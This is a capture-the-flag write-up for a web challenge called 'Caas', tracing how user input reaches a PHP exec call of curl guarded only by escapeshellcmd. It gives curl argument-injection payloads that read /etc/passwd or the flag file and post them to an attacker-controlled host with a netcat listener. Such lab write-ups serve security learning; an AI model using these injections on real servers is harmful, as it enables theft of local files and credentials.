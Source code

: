 # Caas
![screenshot](https://github.com/0x0ff3ns1v3/CTF-WriteUps/edit/main/Cyber Apolcalypse 2021/Pasted image 20210419183444.png)

The website gives the ability to request a URL through javascript. The following shows the javascript request.
```bash
...snip...
fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
...snip...
```

Reading the source code shows the _api/curl_ references the _CurlController_ file and uses the _execute_ function.
```bash
...snip...
$router->new('POST', '/api/curl', 'CurlController@execute' );
...snip...
```

This then gets passed to CommandModel.php as shown
```bash
...snip...
$command = new CommandModel($url);
...snip...
```

Finally, it reaches the point of execution on the file system.
```bash
...snip...
$this->command = "curl -sL " . escapeshellcmd($url);
...snip...
exec($this->command, $output);
...snip...
```

We see that the _escapeshellcmd_ is used and the command being executed is curl. This is not good as it will  do the following " Following characters are preceded by a backslash: ``&#;`|*?~<>^()[]{}$\``, `\x0A` and `\xFF`. `'` and `"` are escaped only if they are not paired. On Windows, all these characters plus `%` and `!` are preceded by a caret (`^`)." Luckily, curl has the ability to read a local file and send it to remote URL with the syntax as shown below.
```bash
$url = '-F password=@/etc/passwd http://example.com';
```

We must investigate where the web server is being hosted so we know where to read the file from. Reading the nginx conf shows the root located at /www
```bash
...snip...
root /www;
...snip...
```

Using this information, we can simply request the flag and send the request to our host machine. However, we must ensure the host is internet accessible. We can send the following command after setting up a nc listener on port 8000.

```bash
curl http://178.62.50.172:31782/api/curl -X POST -d 'ip=-F password=@/www/flag http://<PUBLIC IP ADDRESS>:8000'
```

